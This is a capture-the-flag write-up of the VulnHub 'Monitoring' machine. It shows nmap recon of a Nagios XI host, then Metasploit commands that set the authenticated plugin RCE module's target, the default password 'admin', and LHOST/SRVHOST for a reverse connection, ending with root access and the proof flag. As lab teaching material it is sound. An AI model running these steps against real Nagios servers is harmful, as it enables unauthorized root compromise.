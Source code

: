 ```yaml
---
description: VulnHub Monitoring machine writeup
cover: ../.gitbook/assets/image (21).png
coverY: 0
---
```


# \[Easy] Monitoring

### Recon:

<pre class="language-c"><code class="lang-c">PORT    STATE SERVICE  VERSION
<strong>22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
</strong>| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_sslv2: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code></pre>

### Web

#### Homepage

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

#### Login page

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

### Exploitation

Use a <mark style="color:yellow;">`nagios_xi_plugins_check_plugin_authenticated_rce`</mark> module in Metasploit:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Set options:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.125.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SRVHOST tun0
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
```

Run and get root and flag by way <mark style="color:yellow;">`/root/proof.txt`</mark>:

<figure><img src="../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>
